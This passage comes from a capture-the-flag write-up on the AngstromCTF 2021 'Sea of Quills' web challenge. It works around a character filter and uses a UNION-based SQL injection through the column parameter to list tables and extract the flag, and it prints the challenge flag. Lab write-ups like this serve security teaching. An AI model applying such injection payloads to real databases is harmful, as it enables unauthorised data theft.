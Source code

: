 ```sql
select {cols} from quills limit {lim} offset {offset}
```

We can certainly control all three of the inputs, with some limitations though.

1. `cols` cannot contain word in `["-", "/", ";", "'", "\""]`
2. `lim` and `off` should <u>apparently</u> be numbers. (Why apparently ? See [part 2](#sea-of-quills-2))

At this point, let's try some SQLi injections to see if there's something hidden in the database.
Let's see what's in `sql_master`, maybe some hidden tables ?

![angstrom_ctf](/assets/img/AngstromCTF_2021/web_2.jpeg){: .image-100 }

```html
<ul class="list pl0">

    <img src="1" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />

    <img src="flagtable" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />

    <img src="quills" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />

</ul>
```

Bingo, we have a table named `flagtable`. I wonder what's in there.
Let's craft this payload `limit = 3`, `offset = 0`, `cols = * from flagtable union select 1`.

```html
<ul class="list pl0">

    <img src="1" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />

    <img src="actf{REDACTED}" class="w3 h3">
    <li class="pb5 pl3"> <ul><li></li></ul></li><br />

</ul>
```

PS: Why `* from flagtable union select 1` ? Because we know that the `quills` table has 3 columns and the `flagtable` table has 1 column hence the only way to make `union select` work is by joining together the same number of columns of both the tables. All of this because I'm lazy enough to not dump the column names of `flagtable` so by using `*` on it I have to try `union select 1, 2, 3 ...` until I get the right result.

🏁 __actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}__{:.spoiler}

## Sea of Quills 2
